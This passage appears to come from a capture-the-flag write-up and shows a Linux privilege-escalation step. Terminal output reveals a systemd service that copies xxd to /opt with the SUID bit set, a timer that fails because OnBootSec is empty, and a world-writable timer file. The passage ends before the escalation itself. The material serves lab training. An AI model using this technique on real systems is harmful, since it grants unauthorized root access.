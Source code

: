 Upon checking the `exploit.timer`, we find that it is quite simple.

```console
comte@cheesectf:~$ cat /etc/systemd/system/exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
```

And, checking the `exploit.service`, we see that when it runs, it copies the `xxd` binary to `/opt` and sets the `SUID` bit for the copied binary.

```console
comte@cheesectf:~$ cat /etc/systemd/system/exploit.service
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```

If we try to reload the configuration and start the `exploit.timer` as it is, we will see that it fails.

```console
comte@cheesectf:~$ sudo /bin/systemctl daemon-reload
comte@cheesectf:~$ sudo /bin/systemctl start exploit.timer
Failed to start exploit.timer: Unit exploit.timer has a bad unit file setting.
See system logs and 'systemctl status exploit.timer' for details.
comte@cheesectf:~$ systemctl status exploit.timer
● exploit.timer - Exploit Timer
     Loaded: bad-setting (Reason: Unit exploit.timer has a bad unit file setting.)
     Active: inactive (dead)
    Trigger: n/a
   Triggers: ● exploit.service
```

This is due to the `OnBootSec` value not being present in the unit configuration file.


```console
...
[Timer]
OnBootSec=
...
```
{: file="/etc/systemd/system/exploit.timer" }

From our previous enumeration, we already noted that the `exploit.timer` file was writable.

```console
comte@cheesectf:~$ ls -la /etc/systemd/system/exploit.timer
-rwxrwxrwx 1 root root 87 Mar 29 16:25 /etc/systemd/system/exploit.timer
```
